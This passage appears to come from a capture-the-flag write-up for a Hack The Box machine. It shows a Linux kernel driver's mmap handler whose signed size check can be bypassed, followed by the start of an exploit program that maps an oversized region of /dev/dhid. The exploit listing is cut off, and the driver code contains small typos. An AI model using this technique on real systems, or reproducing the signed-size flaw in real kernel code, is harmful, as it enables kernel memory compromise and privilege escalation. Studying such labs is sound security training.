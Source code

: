 ~~~~c
static int dev_mmap(struct vm_area_struct *vma) {

	int vm_size = vma->vm_end - vma->vm_start;
	int offset  = vma->vm_offset << 0xc;  

	printk(KERN_INFO "DHID Device mmap( vma_size: %x, offset: %x)\n", vm_size, offset);

	if (vm_size > 0x10000 || offset > 0x1000 || (vm_size + offset) > 0x10000) {
		printk(KERN_INFO "HID mmap failed, requested too large a chunk of memory\n");
		return -EAGAIN;
	}

	if (remap_pfn_range(vma, vma-vm_start, offset, (vma->vm_end - vma->vm_start), vma->vm_page_prot)) {
		printk(KERN_INFO "DHID mmap failed\n");
		printk(KERN_INFO "DHID mmap failed, requested too large a chunk of memory\n);
		return -EAGAIN;
	}
	printk(KERN_INFO "DHID mmap OK\n");
	return 0;
}
~~~~

Note that the function attempts to conduct some checks to make sure that memory area to be mapped stays within bounds. However, because `vm_size` is declared as a signed integer, an attacker can use a negative number to bypass this check. I wrote some C code to test it out.

<div class="filename"><span>exploit.c</span></div>

~~~~c
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[]) {

  printf("[+] PID: %d\n", getpid());

  int fd = open("/dev/dhid", O_RDWR);
  if (fd < 0) {
    printf("[-] Open failed!\n");
    return -1;
  }
  printf("[+] Open OK fd: %d\n", fd);

  char buf[100];
  read(fd, buf, 48);
  printf("[+] Message: %s\n", buf);

  long size   = 0xf0000000; // negative number when cast as int
  long offset = 0x0;

  printf("[+] VMA size: 0x%lx (%d)\n", size, (int)size);
  printf("[+] Offset: 0x%lx\n", offset);

  unsigned int * addr = (unsigned int *)mmap((void*)0x42424000, size,
      PROT_READ | PROT_WRITE, MAP_SHARED, fd, offset);

  if (addr == MAP_FAILED) {
    perror("Failed to mmap: ");
    close(fd);
~~~~

[1]: https://www.hackthebox.eu/home/machines/profile/191
[2]: https://www.hackthebox.eu/home/users/profile/1963
[3]: https://www.hackthebox.eu/home/users/profile/11652
[4]: https://www.hackthebox.eu/